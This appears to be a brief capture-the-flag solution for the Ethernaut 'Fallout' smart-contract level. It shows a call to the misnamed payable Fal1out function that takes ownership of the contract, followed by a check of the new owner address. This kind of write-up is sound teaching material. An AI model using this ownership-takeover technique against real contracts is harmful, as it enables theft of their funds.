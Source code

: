 Idea is to call the function that changes the owner, with some ETH since it's a payable function.

contract.Fal1out({value: toWei(0.02)})

To verify changed owner:
await contract.owner()
"0x6ba166580bd6989f2cad8b5245d269b845694baf"

